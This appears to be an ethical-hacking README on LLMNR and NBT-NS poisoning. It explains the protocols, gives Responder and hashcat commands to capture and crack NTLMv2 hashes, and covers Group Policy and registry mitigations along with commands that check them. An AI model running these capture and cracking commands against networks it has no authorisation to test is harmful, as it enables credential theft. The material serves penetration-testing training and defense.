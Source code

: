 ## Overview
LLMNR is a protocol that allows both IPv4 and IPv6 hosts to perform name resolution for hosts on the same local network without requiring a DNS server or DNS configuration.
When a host’s DNS query fails (i.e., the DNS server doesn’t know the name), the host broadcasts an LLMNR request on the local network to see if any other host can answer. <br><br>
LLMNR is the successor to NetBIOS.  NetBIOS (Network Basic Input/Output System) is an older protocol that was heavily used in early versions of Windows networking. NBT-NS is a component of NetBIOS over TCP/IP (NBT) and is responsible for name registration and resolution.  Like LLMNR, NBT-NS is a fallback protocol when DNS resolution fails. It allows local name resolution within a LAN.

![image](https://github.com/0xScorpio/Ethical-Hacking/assets/140411254/bbe32f35-a9f9-4471-88ee-8433fb5334ab)


## Exploitation [EASY]
Listen for LLMNR requests and respond with our own attacker IP address, to redirect the traffic:
```bash
sudo responder -I eth0 -dPv
```
Once an event occurs, we can grab the hash and try to crack it using custom wordlists:
```bash
hashcat –m 5600 HASH-FILE CUSTOM-WORDLIST
```
## Mitigation
- Disable LLMNR by selecting “Turn OFF Multicast Name Resolution” under Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor.<br><br>
- Then, disabled NBT-NS via GPO using the following Powershell script under Startup Scripts in Computer Configuration > Policies > Windows Settings > Scripts > Startup:
```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces\tcpip* -Name NetbiosOptions -Value 2
```
## Confirming mitigations
Check for LLMNR:
```powershell
$(Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows NT\DNSClient" -name EnableMulticast).EnableMulticast
```
Check for NBT-NS:
```bash
wmic nicconfig get caption,index,TcpipNetbiosOptions
```
## Best practice
- Ensure password complexity (greater than 14 characters, alphanumeric, symbols)
- Use [Network Access Control](https://www.fortinet.com/resources/cyberglossary/what-is-network-access-control).
